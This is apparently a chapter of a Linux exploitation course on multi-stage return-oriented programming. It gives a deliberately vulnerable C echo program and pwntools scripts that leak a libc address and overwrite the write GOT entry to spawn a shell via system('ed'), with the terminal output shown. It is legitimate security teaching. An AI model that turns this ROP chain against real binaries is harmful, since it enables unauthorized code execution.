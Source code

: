 # 10. Multi-Stage Exploits

### Multi-Stage Exploits

In this section, we will look at crafting a more complicated exploit that relies on multiple stages. Surprisingly, the vulnerable target we are looking at is the most simple of all the ones we have seen so far. It is precisely the lack of flexibility we have with such a simple target that forces us to adopt a more sophiscated exploit strategy.

```
#include <unistd.h>
#include <stdio.h>

void vuln() {
    char buffer[16];
    read(0, buffer, 100);
    write(1, buffer, 16);
}

int main() {
    vuln();
}
```

It is very simple. It simply echoes your input. It is vulnerable to a standard buffer overflow but ASLR and NX are enabled which means the only things you have to work with is `read`, `write`, and the gadgets that are present in the tiny binary.

```
amon@bethany:~/sproink/linux-exploitation-course/lessons/12_multi_stage/build$ ./1_vulnerable
Hello World
Hello World
```

### Crafting the Exploit Step by Step

First, as we always do, we need a skeleton script to give us our EIP control.

```
#!/usr/bin/python

from pwn import *

def main():
    p = process("../build/1_vulnerable")

    payload = "A"*28 + p32(0xdeadc0de)

    p.send(payload)

    p.interactive()

if __name__ == "__main__":
    main()
```

Next, we would like to try and leak a libc address. We can achieve this by creating fake stack frames that execute `write(STDOUT, write@got, 4)`. This will print 4 bytes of the write@got address to stdout which we can receive on our exploit script.

```
#!/usr/bin/python

from pwn import *

offset___libc_start_main_ret = 0x18637
offset_system = 0x0003ada0
offset_dup2 = 0x000d6190
offset_read = 0x000d5980
offset_write = 0x000d59f0
offset_str_bin_sh = 0x15b82b

read_plt = 0x08048300
write_plt = 0x08048320
write_got = 0x0804a014

def main():
    p = process("../build/1_vulnerable")

    # Craft payload
    payload = "A"*28
    payload += p32(write_plt)
    payload += p32(0xdeadbeef)
    payload += p32(1) # STDOUT
    payload += p32(write_got)
    payload += p32(4)

    p.send(payload)

    # Clear the 16 bytes written on vuln end
    p.recv(16)

    # Parse the leak
    leak = p.recv(4)
    write_addr = u32(leak)
    log.info("write_addr: 0x%x" % write_addr)

    p.interactive()

if __name__ == "__main__":
    main()
```

This works easily enough to get us that leak.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/12_multi_stage/scripts$ python 2_leak_system.py
[+] Starting local process '../build/1_vulnerable': Done
[*] write_addr: 0xf76569f0
[*] Switching to interactive mode
$  [*] Got EOF while reading in interactive

[*] Process '../build/1_vulnerable' stopped with exit code -11
[*] Got EOF while sending in interactive
```

### The Killing Blow

Now, remember that what we are doing is creating a rop chain with these PLT stubs. However, if we just return into functions after functions, it is not going to work very well since the parameters on the stack are not cleaned up. We have to handle that somehow.

This is where the `pop pop ret` gadgets come in. They allow us to advance the stack and make sure our faked stack frames are coherent. We need a `pop pop pop ret` sequence because our `write` call had 3 parameters.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/12_multi_stage/build$ ropper --file 1_vulnerable
... snip ..
0x080484e9: pop esi; pop edi; pop ebp; ret;
... snip ..
```

What should we do next then? What we want to do is overwrite a GOT entry so that we can execute system. Now, we can leverage the fact that a `read` call is basically an arbitrary write primitive. So our entire rop chain sequence would look something like this:

1. `write(1, write@got, 4)` - Leaks the libc address of write
2. `read(0, write@got, 4)` - Read 4 bytes of input from us into the write GOT entry.
3. `system(some_cmd)` - Execute a command of ours and hopefully get shell

Now, of course we have a possible issue. Since our ROP chain would have to include the address of the command on the first read, we have two choices:

1. Expend another read sequence to write "/bin/sh" somewhere in memory
2. Use an alternative command (such as ed)

Option 1 is not feasible as it takes 20 bytes to construct a frame for read. This is a heavily cost when we only have 72 bytes to play with. So, we have to go with Option 2 which is easy enough to get.

```
gdb-peda$ find ed
Searching for 'ed' in: None ranges
Found 393 results, display max 256 items:
1_vulnerable : 0x8048243 --> 0x72006465 ('ed')
1_vulnerable : 0x8049243 --> 0x72006465 ('ed')
```

With all of the information in hand, we can write our exploit:

```
#!/usr/bin/python

from pwn import *

offset___libc_start_main_ret = 0x18637
offset_system = 0x0003ada0
offset_dup2 = 0x000d6190
offset_read = 0x000d5980
offset_write = 0x000d59f0
offset_str_bin_sh = 0x15b82b

read_plt = 0x08048300
write_plt = 0x08048320
write_got = 0x0804a014
new_system_plt = write_plt

pppr = 0x080484e9

ed_str = 0x8048243

def main():
    p = process("../build/1_vulnerable")

    # Craft payload
    payload = "A"*28
    payload += p32(write_plt) # 1. write(1, write_got, 4)
    payload += p32(pppr)
    payload += p32(1) # STDOUT
    payload += p32(write_got)
    payload += p32(4)
    payload += p32(read_plt) # 2. read(0, write_got, 4)
    payload += p32(pppr)
    payload += p32(0) # STDIN
    payload += p32(write_got)
    payload += p32(4)
    payload += p32(new_system_plt) # 3. system("ed")
    payload += p32(0xdeadbeef)
    payload += p32(ed_str)

    p.send(payload)

    # Clear the 16 bytes written on vuln end
    p.recv(16)

    # Parse the leak
    leak = p.recv(4)
    write_addr = u32(leak)
    log.info("write_addr: 0x%x" % write_addr)

    # Calculate the important addresses
    libc_base = write_addr - offset_write
    log.info("libc_base: 0x%x" % libc_base)
    system_addr = libc_base + offset_system
    log.info("system_addr: 0x%x" % system_addr)

    # Send the stage 2
    p.send(p32(system_addr))

    p.interactive()

if __name__ == "__main__":
    main()
```

Running the exploit:

```
ubuntu@ubuntu-xenial:/vagrant/lessons/12_multi_stage/scripts$ python 3_final.py
[+] Starting local process '../build/1_vulnerable': Done
[*] write_addr: 0xf760c9f0
[*] libc_base: 0xf7537000
[*] system_addr: 0xf7571da0
[*] Switching to interactive mode
$ !sh
$ ls -la
total 20
drwxrwxr-x 1 ubuntu ubuntu 4096 Jan 13  2017 .
drwxrwxr-x 1 ubuntu ubuntu 4096 Jan 13 19:08 ..
-rw-rw-r-- 1 ubuntu ubuntu  212 Jan 13 18:16 1_skeleton.py
-rw-rw-r-- 1 ubuntu ubuntu  776 Jan 13 18:30 2_leak_system.py
-rw-rw-r-- 1 ubuntu ubuntu 1410 Jan 13 18:50 3_final.py
$
[*] Stopped program '../build/1_vulnerable'
```
